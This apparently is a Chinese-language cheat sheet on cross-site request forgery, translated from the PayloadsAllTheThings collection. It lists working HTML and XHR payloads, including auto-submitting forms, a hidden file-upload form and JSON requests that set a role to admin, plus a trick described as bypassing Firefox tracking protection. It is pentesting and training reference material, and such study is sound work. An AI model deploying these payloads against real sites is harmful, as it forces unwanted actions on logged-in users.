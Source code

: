 # 跨站请求伪造

> 跨站请求伪造（CSRF/XSRF）是一种攻击，它迫使终端用户在当前已登录的网站上执行不需要的操作。CSRF 攻击专门针对状态改变的请求，而不是数据窃取，因为攻击者无法看到伪造请求的响应。——OWASP

## 概述

* [工具](#工具)
* [方法论](#方法论)
    * [HTML GET - 需要用户交互](#html-get---需要用户交互)
    * [HTML GET - 不需要用户交互](#html-get---不需要用户交互)
    * [HTML POST - 需要用户交互](#html-post---需要用户交互)
    * [HTML POST - 自动提交 - 不需要用户交互](#html-post---自动提交---不需要用户交互)
    * [HTML POST - multipart/form-data 带文件上传 - 需要用户交互](#html-post---multipartform-data-带文件上传---需要用户交互)
    * [JSON GET - 简单请求](#json-get---简单请求)
    * [JSON POST - 简单请求](#json-post---简单请求)
    * [JSON POST - 复杂请求](#json-post---复杂请求)
* [实验](#实验)
* [参考](#参考)

## 工具

* [0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe) - 最先进的跨站请求伪造审计和利用工具包。

## 方法论

![CSRF_cheatsheet](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Cross-Site%20Request%20Forgery/Images/CSRF-CheatSheet.png)

当你登录到某个站点时，通常会有会话。该会话的标识符存储在浏览器的 cookie 中，并且每次向该站点发出请求时都会发送这个 cookie。即使其他站点触发了请求，cookie 也会随请求一起发送，并且请求会被当作是已登录用户执行的。

### HTML GET - 需要用户交互

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">点击我</a>
```

### HTML GET - 不需要用户交互

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

### HTML POST - 需要用户交互

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="提交请求" />
</form>
```

### HTML POST - 自动提交 - 不需要用户交互

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="提交请求" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

### HTML POST - multipart/form-data 带文件上传 - 需要用户交互

```html
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">提交请求</button>
```

### JSON GET - 简单请求

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

### JSON POST - 简单请求

使用 XHR：

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
// application/json 在简单请求中不允许，text/plain 是默认值
xhr.setRequestHeader("Content-Type", "text/plain");
// 你可能还需要尝试以下之一或两者
// xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
// xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

使用自动提交表单，绕过某些浏览器保护，例如 Firefox 浏览器的 [增强跟踪保护](https://support.mozilla.org/en-US/kb/enhanced-tracking-protection-firefox-desktop?as=u&utm_source=inproduct#w_standard-enhanced-tracking-protection) 的标准选项：

```html
<form id="CSRF_POC" action="www.example.com/api/setrole" enctype="text/plain" method="POST">
// 这个输入将发送：{"role":admin,"other":"="}
 <input type="hidden" name='{"role":admin, "other":"'  value='"}' />
</form>
<script>
 document.getElementById("CSRF_POC").submit();
</script>
```

### JSON POST - 复杂请求

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## 实验

* [PortSwigger - 没有防御措施的 CSRF 漏洞](https://portswigger.net/web-security/csrf/lab-no-defenses)
* [PortSwigger - 令牌验证依赖于请求方法的 CSRF](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
* [PortSwigger - 令牌验证依赖于令牌存在的 CSRF](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
* [PortSwigger - 令牌与用户会话无关的 CSRF](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)
* [PortSwigger - 令牌与非会话 cookie 相关的 CSRF](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)
* [PortSwigger - 令牌在 cookie 中重复的 CSRF](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)
* [PortSwigger - Referer 验证依赖于头存在的 CSRF](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)
* [PortSwigger - Referer 验证损坏的 CSRF](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)

## 参考

* [跨站请求伪造速查表 - Alex Lauerman - 2016年4月3日](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
* [跨站请求伪造 (CSRF) - OWASP - 2024年4月19日](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
* [Messenger.com 的 CSRF 显示你检查 CSRF 的步骤 - Jack Whitton - 2015年7月26日](https://whitton.io/articles/messenger-site-wide-csrf/)
* [PayPal 漏洞赏金：未经同意更新 PayPal.me 头像 (CSRF 攻击) - Florian Courtial - 2016年7月19日](https://web.archive.org/web/20170607102958/https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
* [通过一次点击入侵 PayPal 账户（已修补） - Yasser Ali - 2014/10/09](https://web.archive.org/web/20141203184956/http://yasserali.com/hacking-paypal-accounts-with-one-click/)
* [添加推文到收藏夹的 CSRF - Vijay Kumar (indoappsec) - 2015年11月21日](https://hackerone.com/reports/100820)
* [Facebookmarketingdevelopers.com: 代理、CSRF 困境和 API 乐趣 - phwd - 2015年10月16日](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
* [我是如何通过 Apple Bug Bounty 黑掉你的 Beats 账户的？ - @aaditya_purani - 2016/07/20](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
* [FORM POST JSON: JSON CSRF on POST Heartbeats API - Eugene Yakovchuk - 2017年7月2日](https://hackerone.com/reports/245346)
* [通过 CSRF 在 Oculus-Facebook 集成中入侵 Facebook 账户 - Josip Franjkovic - 2018年1月15日](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
* [跨站请求伪造 (CSRF) - Sjoerd Langkemper - 2019年1月9日](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
* [跨站请求伪造攻击 - PwnFunction - 2019年4月5日](https://www.youtube.com/watch?v=eWEgUcHPle0)
* [清除 CSRF - Joe Rozner - 2017年10月17日](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
* [绕过 Referer 检查逻辑的 CSRF - hahwul - 2019年10月11日](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)